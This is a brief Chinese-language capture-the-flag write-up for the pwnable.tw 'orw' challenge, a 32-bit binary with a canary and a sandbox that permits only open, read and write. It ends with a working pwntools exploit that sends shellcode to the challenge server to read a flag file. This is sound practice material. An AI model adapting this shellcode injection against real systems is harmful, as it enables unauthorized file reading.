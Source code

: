 ![image](https://user-images.githubusercontent.com/98165037/225352408-c098738b-6111-44a2-8b48-8d6fda0667b1.png)\
32位程序，开了canary\
![image](https://user-images.githubusercontent.com/98165037/225352038-ff68b8ad-20f1-4bdb-a8b3-87c8576a0a50.png)\
开了沙盒，只能用open，read，write\
![image](https://user-images.githubusercontent.com/98165037/225351744-a22ec6d3-24e0-46dd-aa87-c08ea36c9134.png)\
当时觉得shellcode读到的bss段没有执行权限，会不会不能执行，但代码看上去就是直接执行的意思(事实证明确实能执行），这里还不太懂\
其实挺简单的，但莫名一直不行，后来发现shellcraft生成的汇编里竟然有rdi(仿佛64位才有？），然后尝试注释掉开头的`arch='amd64'`就行了
exp：
```
from pwn import*
context(os='linux',log_level='debug')#arch='amd64'
#p = process("./orwp")
p = remote('chall.pwnable.tw',10001)

shellcode = asm(shellcraft.open("/home/orw/flag"))
shellcode += asm(shellcraft.read(3, 'esp', 0x50))
shellcode += asm(shellcraft.write(1, 'esp', 0x50))
p.sendafter('shellcode:',shellcode)#.ljust(0xC8, b'\x00')
p.interactive()
```
